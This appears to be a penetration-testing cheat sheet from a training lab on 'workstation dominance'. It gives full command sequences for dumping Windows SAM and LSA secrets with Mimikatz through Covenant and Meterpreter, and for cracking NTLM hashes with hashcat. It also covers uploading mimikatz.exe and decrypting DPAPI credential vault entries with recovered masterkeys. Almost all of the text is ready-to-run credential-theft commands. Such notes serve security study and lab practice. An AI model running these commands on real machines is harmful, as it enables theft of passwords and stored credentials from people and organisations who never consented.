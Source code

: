 # workstation dominance

## dumping hashes with covenant and mimikatz

On a high-integrity grunt:

```
mimikatz token::elevate lsadump::secrets
```

```
mimikatz token::elevate lsadump::sam
```

Covenant stores the hashes in the "Data" section.

## dumping hashes with metasploit

View current user privileges:

```
meterpreter > run post/windows/gather/win_privs
```

GetSystem

```
meterpreter > getsystem
```

Use hashdump

```
meterpreter > hashdump
```

If you see a `089c0` at the end of the hashes, they are most likely DISABLED

```
meterpreter > load kiwi
```

view Mimikatz help

```
meterpreter > help
```

Various stuff you can do...

```
meterpreter > creds_all
```

```
meterpreter > lsa_dump_sam
```

```
meterpreter > lsa_dump_secrets
```

## cracking hashes with `hashcat`

view hash-modes on website...

https://hashcat.net/hashcat/

https://github.com/NotSoSecure/password_cracking_rules

On Windows:

```
hashcat.exe -a 0 -m 1000 <hash> -r OneRuleToRuleThemAll.rule rockyou.txt
```

## cracking credential vault with covenant

On a medium integrity grunt:

```
mimikatz vault::cred
```

```
ls C:\Users\s.chisholm.mayorsec\AppData\Local\Microsoft\Credentials
```

Smallest size - the one we wanna use. Take note of that hash.

grunt > task > mimikatz

command:

```
"dpapi::cred /in:C:\Users\s.chisholm.mayorsec\AppData\Local\Microsoft\Credentials\<hash>"
```

Take note of guidMasterKey.

```
ls C:\users\s.chisholm.mayorsec\AppData\Roaming\Microsoft\Protect
```

Look for SID value. Take note of the value.

```
ls C:\users\s.chisholm.mayorsec\AppData\Roaming\Microsoft\Protect\<SID-value>
```

look for the entry with the same GUID value. Copy the whole directory

```
"dpapi::masterkey /in:C:\users\s.chisholm.mayorsec\AppData\Roaming\Microsoft\Protect\<SID>\<GUID> /rpc"
```

Get the key... save to notepad.

Go back to task...

```
"dpapi::cred /in:C:\Users\s.chisholm.mayorsec\AppData\Local\Microsoft\Credentials\<hash> /masterkey <key>"
```

## cracking credential vault with metasploit

in meterpreter session:

```
meterpreter > upload /opt/Tools/mimikatz_trunk/x64/mimikatz.exe C:\\Users\\Public\\mimikatz.exe
```

```
meterpreter > shell
```

Confirm that mimikatz.exe is uploaded

```
cd C:\Users\Public
```

```
> dir
```

```
> dir /a C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials
```

```
> mimikatz.exe
```

```
mimikatz # vault::cred
```

Again, hash is the smaller sized file.

```
mimikatz # dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\<hash>
```

```
mimikatz # exit
```

Go to Protect directory:

```
dir /a C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect
```

```
dir /a C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\<SID>
```

Get the GUID

```
mimikatz.exe
```

```
mimikatz # dpapi::masterkey /in:C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\<SID>\<GUID> /rpc
```

Get the key!

Last but not least:

```
mimikatz # dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\<hash> /masterkey <key>
```









